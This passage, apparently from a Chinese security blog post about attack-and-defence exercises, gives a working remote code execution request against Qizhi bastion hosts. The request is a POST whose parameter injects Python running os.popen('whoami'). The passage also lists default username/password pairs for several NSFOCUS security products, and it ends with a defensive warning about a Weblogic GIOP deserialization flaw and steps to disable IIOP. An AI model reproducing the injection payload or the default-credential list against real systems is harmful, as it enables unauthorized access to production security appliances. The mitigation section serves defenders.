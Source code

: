 3、齐治堡垒机远程代码执行

据说还是另外一个版本是 java 的。

POST /shterm/listener/tui\_update.php

a=\["t';import os;os.popen('whoami')#"\]

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vCSMkdfVxUyiazd2l8iaVIxrjjibZC3icPd8jB2Kdv2XUcPyH1UiaiczW79KyA/640?wx_fmt=png)

4、绿盟安全产品默认密码排查列表

来源: 群里老大哥

IPS 入侵防御系统、SAS­H 运维安全管理系统、SAS 安全审计系统、DAS 数据库审计系统、RSAS 远程安全评估系统、WAF WEB 应用防护系统  

sysauditor/sysauditor

sysmanager/sysmanager

supervisor/supervisor

maintainer/maintainer

webpolicy/webpolicy

sysadmin/sysadmin

conadmin/conadmin

supervis/supervis

webaudit/webaudit

sysadmin/sysadmin

conadmin/nsfocus

weboper/weboper

auditor/auditor

weboper/weboper

nsadmin/nsadmin

admin/nsfocus

admin/admin

shell/shell

0day 预警:

来源: 前天说的 “协同 banIP 蓝队都是第 1”

Weblogic  GIOP 反序列化漏洞（0day），攻击者通过反序列化可以进行任意代码执行，请各单位立即排查。

建议关闭 Weblogic IIOP 协议，关闭方式如下：

1\. 打开 Weblogic 控制台。

2\. 选择 “服务”->”AdminServer”->” 协议”，取消 “启用 IIOP” 的勾选。

3\. 重启 Weblogic 项目，使配置生效。
